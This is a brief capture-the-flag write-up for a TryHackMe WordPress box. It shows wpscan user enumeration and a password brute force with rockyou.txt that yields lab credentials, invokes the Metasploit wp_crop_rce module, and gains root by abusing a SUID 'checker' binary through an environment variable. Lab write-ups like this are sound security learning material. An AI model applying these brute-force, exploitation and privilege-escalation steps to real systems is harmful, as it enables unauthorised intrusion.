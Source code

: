 # Easy THM Box

machine ip : 10.10.40.170

## Enumeration
`wpscan --url HOST-IP --enumerate`
We find a username there -- `kwheel`

Running a bruteforce for the password using wpscan gives us the creds.

`wpscan --url HOST-IP --usernames kwheel -P rockyou.txt`

kwheel - cutiepie1			## wpscan

## Exploit
msfconsole -- goto wp_crop_rce

## Priv Esc
I ran the command `find / -perm -u=s -type f 2>/dev/null` to find any unusual setuids.

Odd setuid was /usr/sbin/checker -- which checks if ur an admin or not.

Download that using meterpreter on download command.

Checker converting it to c code using ghidra we get that *admin env variable needs to be anything but a empty string*.

So we "export admin=somethinglessOffensive"

We can run it `/usr/sbin/checker` and we get root access because now admin is not NULL.

After that we can find the user.txt flag using the find command.
